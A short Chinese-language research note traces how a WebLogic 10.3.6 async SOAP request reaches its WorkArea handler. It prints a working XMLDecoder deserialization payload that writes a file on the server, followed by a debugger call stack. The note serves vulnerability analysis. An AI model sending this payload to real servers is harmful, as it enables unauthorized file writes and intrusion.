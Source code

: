 #Weblogic请求包路径分析

## 0x00 问题描述

Weblogic 10.3.6， Post访问：

 http://172.16.100.97:7001/_async/AsyncResponseService

```XML
 <?xml version="1.0" encoding="UTF-8" ?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" 
xmlns:ads="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <ads:Action>demo</ads:Action>
        <ads:RelatesTo>test</ads:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.io.PrintWriter">
                    <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string>
                    <void method="println">
                        <string>xmldecoder_vul_test4445</string>
                    </void>
                    <void method="close"/>
                </object>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    
    <soapenv:Body>
    	<asy:onAsyncDelivery/>
    </soapenv:Body>
</soapenv:Envelope>
```

​																				*信息 1 Post Body*

然后在processRequest处下断点，查看路径：

```
handleRequest:20, WorkAreaServerHandler (weblogic.wsee.workarea)
handleRequest:141, HandlerIterator (weblogic.wsee.handler)
dispatch:114, ServerDispatcher (weblogic.wsee.ws.dispatch.server)
invoke:80, WsSkel (weblogic.wsee.ws)
handlePost:66, SoapProcessor (weblogic.wsee.server.servlet)
process:44, SoapProcessor (weblogic.wsee.server.servlet)
run:285, BaseWSServlet$AuthorizedInvoke (weblogic.wsee.server.servlet)
service:169, BaseWSServlet (weblogic.wsee.server.servlet)
service:820, HttpServlet (javax.servlet.http)
run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
execute:301, ServletStubImpl (weblogic.servlet.internal)
execute:184, ServletStubImpl (weblogic.servlet.internal)
wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:120, SecurityManager (weblogic.security.service)
securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
execute:2179, WebAppServletContext (weblogic.servlet.internal)
run:1490, ServletRequestImpl (weblogic.servlet.internal)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)
```

